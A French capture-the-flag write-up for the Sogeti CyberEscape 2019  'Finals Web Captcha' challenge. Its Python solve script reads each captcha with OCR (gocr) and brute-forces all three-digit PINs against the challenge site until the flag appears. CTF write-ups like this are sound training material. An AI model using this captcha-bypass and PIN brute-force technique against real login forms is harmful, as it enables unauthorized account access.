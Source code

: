 ```yaml
---
title: "Finals Web Captcha"
subtitle: "Challenge tiré du Cyberescape de la Sogeti"
author: "zTeeed"
team: "HackademINT"
ctf: "SogetiCyberEscape"
annee: "2019"

---
```


# L'énoncé

![](/writeup-scripts/2018-2019/SogetiCyberEscape/finals/web/captcha/capture.png)

# Solution

[solve.py](/writeup-scripts/2018-2019/SogetiCyberEscape/finals/web/captcha/solve.py)

```python
#!/usr/bin/python3

import base64, os, re, requests, pwn


def compute_digit(s, p, p2, digit):
    html = s.get(url).content
    pattern = b'<img class="img-thumbnail" src="data:image/jpg;base64,(.*?)"'
    b64_img = re.findall(pattern, html)
    file = open('test.jpg', 'wb')
    file.write(base64.b64decode(b64_img[0]))
    file.close()
    os.system('gocr -i ./test.jpg > res.txt')
    f = open('./res.txt')
    res = f.read()
    f.close()
    payload = {'cametu': str(res)[:-1]}
    pin = "0"*(3-len(str(digit))) + str(digit)
    data = dict(pin=pin, answer=str(res)[:-1])
    p2.status(str(data))
    rep = s.post(url, data=data)
    p.status(rep.content.decode())
    return rep


def compute(s, p, p2):
    digit = 0
    while digit < 1000:
        rep = compute_digit(s, p, p2, digit)
        if rep.content == b'You might want to see the captcha before saying what it is !':
            pass
        elif rep.content == b'Invalid pin code':
            digit += 1
        elif rep.content == b'Bad captcha answer':
            pass
        else:
            p.success(rep.content.decode())
            return rep.content
    return


def solve(s):
    with pwn.log.progress('reponse') as p:
        with pwn.log.progress('payload') as p2:
            flag = compute(s, p, p2)


if __name__ == '__main__':
    url = 'https://shadowpex.shadow-league.org/'
    s = requests.session()
    flag = solve(s)
```

<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/HlE-5_VvbjY" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen=""></iframe>
